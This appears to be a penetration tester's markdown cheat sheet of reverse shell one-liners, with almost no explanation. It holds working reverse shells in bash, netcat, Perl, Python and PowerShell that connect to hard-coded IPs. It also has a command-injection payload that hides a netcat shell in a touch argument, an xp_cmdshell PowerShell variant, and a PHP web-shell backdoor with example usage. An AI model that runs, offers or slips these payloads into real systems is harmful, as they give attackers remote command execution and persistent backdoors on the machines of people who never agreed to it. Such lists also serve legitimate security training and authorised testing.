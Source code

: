 # Reverse shell scripts

## Proper working reverse shell
```
CTRL + Z -> It will run the session in the background
stty raw -echo
fg
fg
```

http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet

## Using shell
```
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
```

## Using Netcat
```
cmd=nc -nv 192.168.1.71 4444 -e /bin/bash  
```

## Using Perl
```
perl -e 'use Socket;$i="192.168.1.5";$p=4444;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

## Python
```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.1.6",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'

python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.10.14.32\",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn(\"/bin/bash\")'
```

## Command injection reverse shell
```
touch ; nc 10.10.14.52 5555 -e /bin/bash
touch '; nc 10.10.14.52 5555 -e /bin/bash'
```

### Powershell Oneliner
For xp_cmdshell (bypassing single quote restricion by including one more single quote)

```
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient(''10.1.1.1'',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + ''PS '' + (pwd).Path + ''> '';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"

```

General oneliner

```
$client = New-Object System.Net.Sockets.TCPClient("10.10.10.10",80);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```


### Upload nc.exe to windows machine and obtain reverse shell

```
nc.exe 10.10.14.6 4444 -e cmd.exe
```

### Backdoor

PHP

```
<?php echo shell_exec($_GET['e'].' 2>&1'); ?>

Usage: http://<IP>/<filenam>?e=whoami
```
